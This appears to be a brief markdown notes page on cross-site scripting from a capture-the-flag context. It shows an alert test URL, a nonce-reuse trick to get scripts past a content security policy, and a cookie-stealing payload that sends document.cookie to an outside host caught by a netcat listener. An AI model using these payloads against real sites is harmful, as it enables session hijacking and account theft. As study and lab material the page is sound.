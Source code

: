 # XSS
XSS is cross-sit scripting. This page just lists some tips and snippets of code:
- [Check for script attributes](#check-for-script-attributes)
- [Intercept a cookie](#intercept-a-cookie)

## Check for script attributes
When testing whether a site is vulnerable to XSS, you may try something like:
```
https://some.vuln.site?name=<script>alert(1)</script>
```
You can see your script code in the page, but no alert appeared. Check whether other scripts on the page have an attribute that may be needed to execute scripts. For example:
```
http://some.vuln.site/?name=<script%20nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
```
## Intercept a cookie
In one CTF, there was an Admin server that could send a cookie to another server, and we needed to intercept that cookie.

To intercept it, we set up a *netcat* listener, so we could send the cookie to it:
```
$ nc -nlvk 8080
Listening on 0.0.0.0 8080
```
Now we went to the admin server for the challenge, and gave it a URL that would visit the target site, get the cookie and send it to us in a GET variable:
```
https://some.vuln.site/?name=<script%20nonce%3DLRGWAXOY98Es0zz0QOVmag%3D%3D>var%20a%3Ddocument.cookie%3B%20document.location%3D%60http:%2F%2Fcr4ck3rs.com:8080%2F%3Fc%3D%24%7Ba%7D%60<%2Fscript>
```
Without the URL encoding, this is:
```
https://some/vuln.site/?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==">var a=document.cookie; document.location=`http://cr4ckers.com:8080/?c=${a}`</script>
```
